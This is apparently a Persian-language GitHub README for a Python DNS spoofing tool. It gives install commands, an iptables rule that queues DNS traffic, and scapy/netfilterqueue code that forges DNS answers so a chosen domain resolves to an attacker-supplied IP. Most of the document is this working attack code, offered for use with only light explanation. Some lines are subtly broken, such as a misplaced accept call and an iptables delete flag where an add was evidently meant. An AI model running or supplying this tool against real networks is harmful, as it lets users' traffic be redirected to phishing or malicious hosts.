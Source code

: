 # Dns Spoof



## نصب ابزار مورد نیاز

این یک اسکریپت جهت انجام حملات دی ان اس اسپوفینگ است و به پایتون ۳ جهت اجرا نیاز دارد. سپس برای نصب پکیج های مورد نیاز دستورات زیرا را وارد کنید:

```bash
pip install scapy
pip install netfilterqueue
```

## اجرای اسکریپت
برای اجرای اسکریپت کافی است ان را به صورت زیر اجرا کنید:

```bash
sudo ./dns-spoof.py --queue 1 --server www.example.com/1.2.3.4
```

این اسکریپت به کمک یک پکیج به اسم نت فیلتر کیو شروع به پردازش بسته ها می کند. یعنی بسته ها را از یک سری صف می خواند و می تواند ان را تغییر دهد یا قبول کند یا ریجکت کند. برای اینکه از این ضف ها استفاده کند. باید از ایپی تیبل کمک بگیرد. یعنی ایپی تیبل پکت های دریافتی را در صف هایی قرار دهد و این اسکریپت این پکت ها را برداشته و پردازش کند. برای اینکه ایپی تیبل این کار را برای ما انجام دهد باید از دستور زیر استفاده کنیم:

```bash
sudo iptables -D INPUT -p udp  --sport 53 -j NFQUEUE --queue-num 1
```

## توضیح اسکریپت

در این قسمت ما داریم یک کامند لاین درست می کنیم. که بتواند دو تا مقدار بگیرد اولی شماره صفی که باید پکت ها را از ان بخواند و دومی ادرس وبسایت به علاوه ایپی که باید جواب دهد. و از طرفی یک ابجکت از نوع نت فیلتر می سازیم و ان را به شماره صفی که در کامند لاین دادیم متصل می کنیم. همچنین یک کال بک برای ان ست می کنیم. که هر پکتی که از صف برداشت ان را به این کال بک بدهد یا عملیات مورد نظر انجام شود:

```python
parser = argparse.ArgumentParser()
parser.add_argument('--queue', required=True, type=int,
                    metavar='Netfilter Queue ID for binding')
parser.add_argument('--server', required=True, type=str,
                    metavar='website/to ip address')
args = parser.parse_args()
splitted = args.server.split('/')
nfqueue = NetfilterQueue()
nfqueue.bind(args.queue, callback)
nfqueue.run()
```

در این قسمت تابع کال بک را مشاهده می کنید که ابتدا کاری که انجام می دهد این است که پیلود پکت که دریافت کرده را برمی دارد. سپس بررسی می کند که ایا پکت مورد نظر از نوع دی ان اس است یا خیر اگر نبود پکت را برای ادامه پردازش به خود کرنل منتقل می کند. بعد از آن بررسی می کند که آیا پکت مورد نظر که از نوع دی ان اس است حاوی ادرسی است که ما می خواهیم ان را عوض کنیم یا خیر. در صورتی که حاوی این ادرس بود یک پکت جدید از نوع دی ان اس می سازیم و در پکت مورد نظر اینجکت می کنیم. و سپس پکت را به کرنل پاس می دهیم:

```python
def callback(packet):
    ip_packet = IP(packet.get_payload())
    # for better throghput check if the packet is dns query
    if not ip_packet.haslayer(DNSQR):
        # accept packet and go to furthur processing
        ip_packet.accept()

    print(f"[*] Recive dns packet for site: {ip_packet[DNSQR].qname.decode()}")
    # check if the dns query contains our target site
    if splitted[0] in ip_packet[DNSQR].qname.decode():
        print("[*] We got dns packet for target site!!!!")
        # we hit the dns query that is about out target. going to change
                      # it's ip packet                                   # since it's dns packet, it must be sent over udp
        new_payload = IP(src=ip_packet[IP].src, dst=ip_packet[IP].dst) / UDP(sport=ip_packet[UDP].sport, dport=ip_packet[UDP].dport) /\
                        DNS(id=ip_packet[DNS].id, qr=1, aa=1, qd=ip_packet[DNS].qd, an=DNSRR(rrname=ip_packet[DNS].qd.qname, ttl=10, rdata=splitted[1]))
        
        # change packet payload
        packet.set_payload(bytes(new_payload))
        # accept packet and go to furthur processing
        packet.accept()
    else:
        # pass the packet. it's not what we want
        packet.accept()
```

## نتایج اجرای اسکریپت

دی ان اس واقعی:

دی ان اس فیک بعد از اجرای اسکریپت:

خروجی اسکریپت:
